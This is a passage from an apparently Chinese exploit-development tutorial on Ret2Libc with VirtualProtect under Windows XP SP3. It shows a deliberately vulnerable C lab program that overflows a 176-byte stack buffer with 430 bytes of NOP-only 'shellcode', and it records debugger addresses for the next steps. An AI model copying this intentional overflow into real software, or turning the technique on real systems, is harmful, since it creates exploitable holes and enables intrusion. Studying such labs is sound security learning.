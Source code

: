 

## 0x015 Ret2Libc实战之利用VirtualProtect

>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H  

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化
```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

void test()
{
	char str[176];
	__asm int 3
	memcpy(str, shellcode, 430);
}

int main()
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	test();

	return 0;
}
```

运行*.exe, OllyDbg在int 3断点断下, shellcode起始地址0x0012fdfc, 返回地址0x0012feb0
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x015-001.png)
